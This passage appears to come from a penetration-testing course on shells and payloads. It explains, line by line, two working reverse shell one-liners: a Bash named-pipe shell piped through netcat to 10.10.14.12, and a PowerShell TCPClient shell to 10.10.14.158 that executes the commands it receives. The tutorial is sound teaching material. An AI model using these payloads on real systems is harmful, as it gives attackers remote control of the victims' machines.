 We will start this process by breaking down the one-liners we worked with earlier :

```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

Let's break down each portion of the one-liner :

- Removes the `/tmp/f` file if it exists, `-f` causes `rm` to ignore nonexistent files. The semi-colon (`;`) is used to execute the command sequentially.
- Makes a [FIFO named pipe file](https://man7.org/linux/man-pages/man7/fifo.7.html) at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (`;`) is used to execute the command sequentially.
- Concatenates the FIFO named pipe file /tmp/f, the pipe (`|`) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (`|`).
- Specifies the command language interpreter using the `-i` option to ensure the shell is interactive. `2>&1` ensures the standard error data stream (`2`) `&` standard output data stream (`1`) are redirected to the command following the pipe (`|`).
- Uses Netcat to send a connection to our attack host `10.10.14.12` listening on port `7777`. The output will be redirected (`>`) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed.

The shells & payloads we choose to use largely depend on which OS we are attacking. We witnessed this in the reverse shells section by establishing a reverse shell with a Windows system using PowerShell. Let's breakdown the one-liner we used :

```cmd-
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- Executes `powershell.exe` with no profile (`nop`) and executes the command/script block (`-c`) contained in the quotes.
- Sets/evaluates the variable `$client` equal to (`=`) the `New-Object` cmdlet, which creates an instance of the `System.Net.Sockets.TCPClient` .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses `(10.10.14.158,443)`.
- Sets/evaluates the variable `$stream` equal to (`=`) the `$client` variable and the .NET framework method called [GetStream](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.getstream?view=net-5.0) that facilitates network communications.
- Creates a byte type array (`[]`) called `$bytes` that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.
- Starts a `while` loop containing the `$i` variable set equal to (`=`) the .NET framework [Stream.Read](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream.read?view=net-5.0) (`$stream.Read`) method. The parameters: buffer (`$bytes`), offset (`0`), and count (`$bytes.Length`) are defined inside the parentheses of the method.
- Sets/evaluates the variable `$data` equal to (`=`) an [ASCII](https://en.wikipedia.org/wiki/ASCII) encoding .NET framework class that will be used in conjunction with the `GetString` method to encode the byte stream (`$bytes`) into ASCII.
- Sets/evaluates the variable `$sendback` equal to (`=`) the Invoke-Expression (`iex`) cmdlet against the `$data` variable, then redirects the standard error (`2>`) `&` standard output (`1`) through a pipe (`|`) to the `Out-String` cmdlet which converts input objects into strings.
- Sets/evaluates the variable `$sendback2` equal to (`=`) the `$sendback` variable plus (`+`) the string PS (`'PS'`) plus `+` path to the working directory (`(pwd).path`) plus (`+`) the string `'> '`. This will result in the shell prompt being PS C:\workingdirectoryofmachine >.
- Sets/evaluates the variable `$sendbyte` equal to (`=`) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.
- This is the [TcpClient.Close](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.close?view=net-5.0) method that will be used when the connection is terminated.
